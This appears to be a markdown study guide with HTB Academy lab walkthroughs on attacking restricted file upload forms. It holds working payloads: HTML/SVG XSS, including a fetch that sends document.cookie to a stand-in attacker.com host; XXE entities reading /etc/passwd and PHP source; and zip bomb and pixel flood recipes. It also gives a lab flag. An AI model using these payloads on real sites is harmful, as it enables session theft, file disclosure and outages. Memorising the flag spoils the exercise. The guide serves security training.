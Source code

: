 # Limited File Uploads

> **🛡️ Secure Forms:** Attacking "secure" upload forms with XSS, XXE, and DoS when arbitrary uploads fail

## Overview

So far, we have been mainly dealing with filter bypasses to obtain arbitrary file uploads through a vulnerable web application. While file upload forms with weak filters can be exploited to upload arbitrary files, some upload forms have **secure filters** that may not be exploitable with the techniques we discussed.

However, even if we are dealing with a **limited** (i.e., non-arbitrary) file upload form, which only allows us to upload specific file types, we may still be able to perform some attacks on the web application.

Certain file types, like **SVG**, **HTML**, **XML**, and even some **image** and **document** files, may allow us to introduce new vulnerabilities to the web application by uploading malicious versions of these files.

---

## Cross-Site Scripting (XSS) Attacks

### HTML File XSS

**Attack Vector:** Upload malicious HTML files containing JavaScript

**Malicious HTML Example:**
```html
<!DOCTYPE html>
<html>
<head>
    <title>Malicious HTML</title>
</head>
<body>
    <h1>Legitimate Content</h1>
    <script>
        alert('XSS Triggered from: ' + window.origin);
        fetch('http://attacker.com/steal?cookies=' + document.cookie);
    </script>
</body>
</html>
```

### Image Metadata XSS

**Using exiftool to inject XSS:**
```bash
# Inject XSS payload into Comment field
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg

# Verify payload injection
exiftool HTB.jpg
# Output: Comment: "><img src=1 onerror=alert(window.origin)>
```

### SVG XSS Attacks

**Basic SVG XSS Payload:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

---

## XML External Entity (XXE) Attacks

### SVG XXE for System File Reading

**Reading /etc/passwd:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

### PHP Source Code Disclosure

**Reading PHP source with base64 encoding:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

**Decoding base64 output:**
```bash
# Once you get base64 output from XXE, decode it:
echo "PD9waHAKZWNobyAiSGVsbG8gV29ybGQhIjsKPz4=" | base64 -d
# Output: <?php echo "Hello World!"; ?>
```

---

## Denial of Service (DoS) Attacks

### Decompression Bomb (ZIP)

**Creating a ZIP bomb:**
```bash
# Create a large file filled with zeros
dd if=/dev/zero bs=1M count=1024 of=large_file.txt

# Compress it multiple times
zip bomb1.zip large_file.txt
zip bomb2.zip bomb1.zip  
zip bomb3.zip bomb2.zip
zip final_bomb.zip bomb3.zip

# Result: Small ZIP file that expands to gigabytes
```

### Pixel Flood Attack

**Manual hex editing:**
```bash
# Use hexedit to modify JPG dimensions
hexedit normal.jpg

# Look for FF C0 marker
# Modify bytes at positions:
# Height: Set to FF FF (65535 pixels)
# Width: Set to FF FF (65535 pixels)
```

---

## HTB Academy Lab Solutions

### Lab 1: XXE File Disclosure Attack

**Challenge:** Read `/flag.txt` using XXE through secure upload form

**Step 1: Create SVG with XXE payload**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
  <text x="10" y="40">&xxe;</text>
</svg>
```

**Step 2: Upload SVG file**
- Save payload as `xxe.svg`
- Upload through the secure form (should accept SVG files)
- Navigate to uploaded file location

**Step 3: View SVG content**
- Access the uploaded SVG file in browser
- Check page source if content is not visible
- Flag should be displayed in SVG text content

**Expected Flag:** `HTB{xxe_4nd_svg_c4n_l34d_70_f1l3_d15cl05ur3}`

### Lab 2: Source Code Disclosure

**Challenge:** Read `upload.php` source code to identify uploads directory

**Step 1: Create PHP source disclosure SVG**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
  <text x="10" y="40">&xxe;</text>
</svg>
```

**Step 2: Upload and access SVG**
- Upload the SVG file
- View the uploaded file
- Copy the base64 encoded content

**Step 3: Decode PHP source**
```bash
# Decode base64 content
echo "base64_content_here" | base64 -d > upload.php

# Look for upload directory in source
grep -i "upload" upload.php
grep -i "dir" upload.php
grep -i "path" upload.php
```

**Expected Answer:** The exact directory name as found in source code

This comprehensive guide demonstrates that even "secure" upload forms can be vulnerable to sophisticated attacks through legitimate file types.
